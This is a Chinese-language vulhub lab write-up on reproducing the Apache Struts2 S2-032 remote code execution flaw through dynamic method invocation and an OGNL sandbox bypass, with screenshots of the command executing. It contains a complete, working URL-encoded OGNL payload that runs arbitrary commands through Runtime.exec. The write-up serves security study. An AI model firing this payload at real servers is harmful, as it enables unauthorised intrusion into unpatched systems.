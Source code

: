 # Struts2_032_远程代码执行

###### by ADummy

### 0x00利用路线

​			burpuite抓包--->修改payload--->重放包--->代码执行--->有回显

### 0x01漏洞介绍

​		Struts 2是Struts的下一代产品，是在 struts 1和WebWork的技术基础上进行了合并的全新的Struts 2框架。其全新的Struts 2的体系结构与Struts 1的体系结构差别巨大。Struts 2以WebWork为核心，采用拦截器的机制来处理用户的请求，这样的设计也使得业务逻辑控制器能够与 ServletAPI完全脱离开，所以Struts 2可以理解为WebWork的更新产品。虽然从Struts 1到Struts 2有着太大的变化，但是相对于WebWork，Struts 2的变化很小。

1 前提：开启动态方法调用。

<constant name="struts.enable.DynamicMethodInvocation" value="true" />

  假如动态方法调用已经开启,然后我们要调用对应的login方法的话 我们可以通过http://localhost:8080/struts241/index!login.action来执行动态的方法调用。这种动态方法调用的时候method中的特殊字符都会被替换成空，但是可以通过[http://localhost:8080/struts241/index.action?method:login来绕过无法传入特殊字符的限制](http://localhost:8080/struts241/index.action?method:login%C0%B4%C8%C6%B9%FD%CE%DE%B7%A8%B4%AB%C8%EB%CC%D8%CA%E2%D7%D6%B7%FB%B5%C4%CF%DE%D6%C6)。

接收到的参数会经过处理存入到ActionMapping的method属性中。DefaultActionProxyFactory将ActionMappping的method属性设置到ActionProxy中的method属性，而DefaultActionInvocation.java中会把ActionProxy中的method属性取出来放入到ognlUtil.getValue(methodName + “()”, getStack().getContext(), action);方法中执行ognl表达式，沙盒绕过，通过ognl表达式静态调用获取ognl.OgnlContext的DEFAULT_MEMBER_ACCESS属性，并将获取的结果覆盖_memberAccess属性，这样就可以绕过SecurityMemberAccess的限制。

​			影响版本

  		2.3.20 - 2.3.28

### 0x02漏洞复现

#### payload1(RCE)：

method:%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,%23res%3d%40org.apache.struts2.ServletActionContext%40getResponse(),%23res.setCharacterEncoding(%23parameters.encoding%5B0%5D),%23w%3d%23res.getWriter(),%23s%3dnew+java.util.Scanner(@java.lang.Runtime@getRuntime().exec(%23parameters.cmd%5B0%5D).getInputStream()).useDelimiter(%23parameters.pp%5B0%5D),%23str%3d%23s.hasNext()%3f%23s.next()%3a%23parameters.ppp%5B0%5D,%23w.print(%23str),%23w.close(),1?%23xx:%23request.toString&pp=%5C%5CA&ppp=%20&encoding=UTF-8&cmd=**id**



​			**登录界面**

![S2_032_rce_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/S2_032_rce_1.jpg)

​			**Burpsuite改包重放，有回显，发现id被执行**

![S2_032_rce_2](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/S2_032_rce_2.jpg)



### 0x03参考资料

https://blog.csdn.net/qq_29277155/article/details/51285564
